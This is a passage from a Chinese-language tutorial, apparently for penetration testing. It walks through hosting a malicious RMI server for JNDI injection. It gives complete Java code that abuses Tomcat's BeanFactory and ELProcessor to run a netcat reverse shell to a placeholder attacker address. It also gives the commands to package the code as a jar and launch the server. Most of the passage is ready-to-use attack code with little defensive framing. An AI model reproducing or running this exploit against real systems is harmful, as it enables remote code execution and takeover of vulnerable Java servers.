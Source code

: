 
**步骤二：托管RMI服务及代码**

编写优化过后的用来反弹 shell 的JAVA代码(只需修改代码中的服务监听端口和反弹shell的ip地址及其端口)

```
import java.rmi.registry.*;
import com.sun.jndi.rmi.registry.*;
import javax.naming.*;
import org.apache.naming.ResourceRef;
 
public class EvilRMIServer {
    public static void main(String[] args) throws Exception {
        System.out.println("Creating evil RMI registry on port xxxxx");//RMI服务监听地址
        Registry registry = LocateRegistry.createRegistry(1097);
 
        //prepare payload that exploits unsafe reflection in org.apache.naming.factory.BeanFactory
        ResourceRef ref = new ResourceRef("javax.el.ELProcessor", null, "", "", true,"org.apache.naming.factory.BeanFactory",null);
        //redefine a setter name for the 'x' property from 'setX' to 'eval', see BeanFactory.getObjectInstance code
        ref.add(new StringRefAddr("forceString", "x=eval"));
        //expression language to execute 'nslookup jndi.s.artsploit.com', modify /bin/sh to cmd.exe if you target windows
        ref.add(new StringRefAddr("x", "\"\".getClass().forName(\"javax.script.ScriptEngineManager\").newInstance().getEngineByName(\"JavaScript\").eval(\"new java.lang.ProcessBuilder['(java.lang.String[])'](['/bin/sh','-c','rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc xxx.xxx.xxx.xxx xxxx >/tmp/f']).start()\")"));
         //反弹shell地址为xxx.xxx.xxx.xxx(ip地址)，端口为xxxx(端口地址)
        
        ReferenceWrapper referenceWrapper = new com.sun.jndi.rmi.registry.ReferenceWrapper(ref);
        registry.bind("jndi", referenceWrapper);
    }
}
```



将上面反弹shell的JAVA代码进行打包成jar包

```
mvn clean install
或者
javac xxxxxxx.java
jar -cvf  xxxx.jar -C src/ .
```



**步骤三:  启动RMI服务**

指定开启连接RMI服务的主机IP地址，架设RMI服务

```
java -Djava.rmi.server.hostname=xxx.xxx.xxx.xxx -jar RMIServer-0.1.0.jar
```


